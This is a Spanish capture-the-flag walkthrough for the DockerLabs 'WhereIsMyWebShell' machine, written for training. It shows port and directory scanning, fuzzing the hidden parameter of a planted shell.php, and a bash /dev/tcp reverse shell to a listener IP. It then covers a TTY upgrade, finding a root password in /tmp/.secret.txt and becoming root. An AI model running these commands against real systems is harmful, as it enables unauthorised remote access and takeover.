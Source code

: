 ```yaml
---
icon: flag
---
```


# WhereIsMyWebShell DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip whereismywebshell.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh whereismywebshell.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:55 EST
Nmap scan report for insanity.dl (172.17.0.2)
Host is up (0.000040s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds
```

Si entramos dentro de la pagina veremos una pagina normal, por lo que haremos un poco mas de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/server-status        (Status: 403) [Size: 275]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que encontramos `2` cosas bastantes interesantes si entramos en la siguiente pagina...

```
URL = http://<IP>/warning.html
```

Veremos lo siguiente:

```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```

Por lo que vamos a realizar un poco de `fuzzing` en busca del parametro oculto en el `shell.php` que puede ejecutar codigo.

## WFUZZ

```shell
wfuzz -w <WORDLIST> -u 'http://<IP>/shell.php?FUZZ=whoami' --hh 0
```

Info:

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000115401:   200        2 L      2 W        21 Ch       "parameter" 
```

Vemos que encontramos el parametro `parameter`, por lo que vamos a comprobarlo:

```
URL = http://<IP>/shell.php?parameter=whoami
```

Info:

```
www-data
```

Vemos que funciona, por lo que nos crearemos una `reverse shell` de la siguiente forma:

```
URL = http://<IP>/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.5.186/7777 0>%261"
```

Tendremos que sustituir los `&` en formato `URL` que seria `%26` para que se lo pueda tragar y lo interprete bien.

Pero antes de ejecutarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si ejecutamos lo de la `URL` y nos vamos donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 44808
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@f19c77e8e3b7:/var/www/html$ whoami
whoami
www-data
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si vemos que archivos a creado el usuario `root`, veremos lo siguiente:

```shell
find / -type f -user root 2>/dev/null
```

Info:

```
................................<RESTO_CODIGO>...................................
/sys/module/drm/sections/___srcu_struct_ptrs
/sys/module/drm/sections/.altinstr_aux
/sys/module/drm/sections/__ex_table
/sys/module/drm/sections/__bpf_raw_tp_map
/sys/module/drm/sections/.rodata.str1.8
/sys/module/drm/sections/.export_symbol
/sys/module/drm/sections/.ref.data
/run/apache2/apache2.pid
/run/adduser
/tmp/.secret.txt
/.dockerenv
```

Vemos que hay una ruta interesante llamada `/tmp/.secret.txt` que si lo leemos veremos lo siguiente:

```
cat /tmp/.secret.txt
```

Info:

```
contraseñaderoot123
```

Por lo que vemos puede ser la contraseña de `root` por lo que haremos lo siguiente:

```shell
su root
```

Metemos como contraseña `contraseñaderoot123` y veremos que somos `root` por lo que habremos terminado la maquina.
